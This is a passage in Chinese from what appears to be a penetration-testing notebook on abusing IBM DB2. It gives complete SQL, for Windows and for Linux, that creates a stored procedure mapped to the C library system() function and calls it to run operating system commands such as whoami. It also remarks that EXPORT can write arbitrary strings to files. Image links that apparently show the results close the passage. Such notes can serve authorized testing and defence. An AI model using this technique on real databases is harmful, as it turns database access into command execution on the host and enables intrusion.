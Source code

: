 注：  

通过 EXPORT 向文件写入自定义字符串内容时 SELECT 的表中必须至少有一条记录否则写入内容为空

可利用 DB2 存储过程执行操作系统命令。远程连接数据库的用户需要具有创建存储过程的权限，连接数据库后创建一个可以执行操作系统命令的存储过程并调用。

创建此种存储过程并调用的语法如下：

Windows：

```

#!sql

CREATE PROCEDURE db2_cmd_exec (IN cmd varchar(200))

EXTERNAL NAME 'c:\windows\system32\msvcrt!system' 

LANGUAGE C 

DETERMINISTIC 

PARAMETER STYLE DB2SQL

CALL db2_cmd_exec ('whoami /all > C:\whoami.log')

```

Linux：

```

#!sql

CREATE PROCEDURE db2_cmd_exec (IN cmd varchar(200))

EXTERNAL NAME '/usr/lib/libstdc++.so.6!system' 

LANGUAGE C 

DETERMINISTIC 

PARAMETER STYLE DB2SQL

call db2_cmd_exec ('whoami > /tmp/whoami.log')

```

运行结果：

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409565230884462.png)

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409565550799472.png)

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409565920633482.png)
